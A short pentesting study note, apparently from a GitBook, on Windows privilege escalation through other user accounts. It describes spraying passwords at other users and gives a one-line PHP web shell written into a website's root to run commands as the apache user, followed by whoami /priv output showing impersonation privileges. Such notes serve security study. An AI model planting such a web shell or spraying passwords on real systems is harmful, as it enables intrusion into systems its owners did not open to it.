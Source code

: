 # Other Users

So just like linux, whenever we see other users, we try to spam passwords and see if we can get access to other users who could possibly have more privilege.&#x20;

So lets say in Windows we enumerate the users and we see that there is an apache user. In that same computer there is also a website running. So, chances are if we are able to overwrite files in the location of the website, we will be executing code as the user apache.&#x20;

{% embed url="https://app.gitbook.com/s/hNEcBmjpao37mR29JPHE/priv-escalation" %}

Lets take this case for example, we wrote a php file that did the following.&#x20;

```
<pre>
<?php
system($_GET['cmd']);
?>
</pre>
```

It allows us to execute commands. As our current user we were able to write this file into the root directory of the website and be able to run it.&#x20;

![](<../../../.gitbook/assets/image (55).png>)

Then it turned out that the user apache had impersonation privileges.&#x20;

```
C:\Users\apache>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeTcbPrivilege                Act as part of the operating system       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```
